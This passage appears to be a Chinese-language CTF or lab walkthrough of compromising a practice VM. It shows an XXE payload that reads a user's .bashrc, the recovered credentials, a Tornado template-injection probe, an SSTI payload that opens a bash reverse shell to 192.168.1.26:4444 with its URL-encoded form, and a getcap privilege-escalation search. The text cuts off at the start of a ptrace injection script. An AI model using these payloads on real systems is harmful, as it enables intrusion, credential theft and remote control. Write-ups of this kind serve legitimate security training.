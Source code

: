 结合PHP包装器，使用如下Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
<root>
	<name>abc</name>
	<tel>123</tel>
	<email>&bar;</email>
	<password>123</password>
</root>
```
经过解码后发现包含如下内容
```
#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"
```
尝试在9999端口的web应用登录，试了一下发现失败了
再尝试一下用户名不用 `admin` 而是 `saket` ，这下成功了
提示告诉名字，访问 `http://192.168.1.35:9999/?name=abc` 试试
果然有问题，再结合之前收集到的信息：`python` 和 `Tornado`
尝试模板注入，Payload如下
```
{{1+ccccdddd}}${1+ccccdddd}<%1+ccccdddd%>[ccccdddd]
```
出现了报错，说明可能存在模板注入，而程序语言是Python，尝试针对Python的PoC
```
${4*4},{{4*4}}
```
这下知道了模板的格式，无返回值的语句用 `{% %}` ，有返回值的用 `{{ }}`
```
{{ 3+3 }}
{% import os %}{{ os.popen('which nc').read() }}
```
但是直接执行会失败，需要先进行URL encode，可以直接用 [CyberChef](https://gchq.github.io/CyberChef/) 的 `URL Encode` 模块，选中 `Encode all special chars`
```
%7B%25%20import%20os%20%25%7D%7B%7B%20os%2Epopen%28%27which%20nc%27%29%2Eread%28%29%20%7D%7D
```
反弹Shell
```
{% import os %}{{ os.system('bash -c "bash -i >& /dev/tcp/192.168.1.26/4444 0>&1"') }}
```
编码后为
```
%7B%25%20import%20os%20%25%7D%7B%7B%20os%2Esystem%28%27bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E1%2E26%2F4444%200%3E%261%22%27%29%20%7D%7D
```
成功获取到反弹shell
接下来需要去提权
查看特权程序
```Shell
/sbin/getcap -r / 2>/dev/null
# /usr/bin/python2.7 = cap_sys_ptrace+ep
```
python cap_sys_ptrace+ep利用代码
`inject.py`
```python
# 需要libc.so.6
# 默认端口 5600 如果要改需要重新生成shellcode
import ctypes
import sys
import struct

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
```